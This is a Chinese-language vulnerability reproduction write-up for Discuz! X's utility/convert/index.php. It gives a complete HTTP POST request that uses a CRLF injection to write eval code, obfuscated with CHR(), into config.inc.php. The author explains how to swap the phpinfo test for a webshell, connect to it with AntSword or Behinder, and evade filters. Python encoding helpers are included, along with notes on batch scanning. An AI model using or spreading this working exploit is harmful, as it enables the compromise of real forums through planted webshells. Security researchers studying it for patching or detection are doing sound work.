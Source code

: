 # 1、漏洞描述

discuz! X系列的全版本，其产品升级/转换的功能存在漏洞，可利用构造的恶意语句，将shell写入到config.inc.php配置文件，从而实现getshell。

# 2、影响范围

discuz! X系列全版本

# 3、漏洞复现

漏洞利用的文件为utility/convert/index.php，选择其中一个版本，点击开始，抓取下一个页面的提交请求。
![](images/image-20210903135314303.png)
![](images/image-20210903135652209.png)

修改请求包的POST内容为如下，主要是修改红框中的内容：

![](images/image-20210903135909982.png)

```
POST /Discuz_X3.2_SC_GBK/utility/convert/index.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 236
Origin: http://127.0.0.1
DNT: 1
Connection: close
Referer: http://127.0.0.1/Discuz_X3.2_SC_GBK/utility/convert/index.php?a=config&source=d7.2_x2.0
Upgrade-Insecure-Requests: 1

a=config&source=d7.2_x2.0&submit=yes&newconfig[aaa%0a%0deval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(112).CHR(104).CHR(112).CHR(105).CHR(110).CHR(102).CHR(111).CHR(40).CHR(41).CHR(59).CHR(34).CHR(41).CHR(59));//]=aaaaaaaa
```

提交之后，相应的shell就写入到了/utility/convert/data/config.inc.php文件中，后面用蚁剑、冰蝎什么的连就可以了。

# 4、坑点

POST包中的source参数内容，为目标现在的版本，如果不对，提交请求会无效的。因版本比较多，手工党问题不大，但脚本批量的话，脚本中这个参数的值不多的话，大概率会漏报。

这里无论是漏洞利用的URL，还是最终写入到的URL中的文件，都有一个问题，那就是utility目录所在的位置，对于不同的站来说，很有可能不固定。网上下载的源码，这个目录是在网站根目录的上一级目录，手工的时候注意一下。脚本中是默认此目录在网站根目录了。

最重要的poc/exp的内容，其明文部分是eval("phpinfo();"); 只需要改双引号中的内容即可，比如shell为eval("$_POST['pass'];"); 但最终要转换为CHR类型的值。其中这个POST参数中的%0a%0d代表的是回车换行，在python中为\x0a\x0d，是为了躲避检查。CHR与STRING转换的脚本放在下面了。

# 5、CHR与STRING转换

## 5.1、CHR TO STRING

```
# _*_ coding:utf-8 _*_

import re

list1 = []
st = "CHR(60).CHR(63).CHR(112).CHR(104).CHR(112).CHR(32).CHR(101).CHR(99).CHR(104).CHR(111).CHR(32).CHR(39).CHR(97).CHR(98).CHR(99).CHR(39).CHR(59).CHR(63).CHR(62)"

ss = re.findall('\((\d+)\)+',str(st))
#print(ss)
for s in ss:
	s = chr(int(s))
	list1.append(str(s))

s = "".join(list1)
print(s)
```

## 5.2、STRING TO CHR

```
# _*_ coding:utf-8 _*_


list1 = []
st = "<?php echo 'abc';?>"
for s in st:
	chr_s = ord(s)
	list1.append("CHR("+str(chr_s)+")")

chr_ss = ".".join(list1)
print(chr_ss)
```

# 6、poc

poc默认漏洞URL的主目录是在网站根目录下了，可能会有漏报，POST参数中的source，poc中已经尽可能的多写了，不排除会有漏报的情况出现。配合框架可批量，测试脚本可发现漏洞。

若要getshell，直接更改poc_key中的相关内容即可，漏洞复现中也有写。
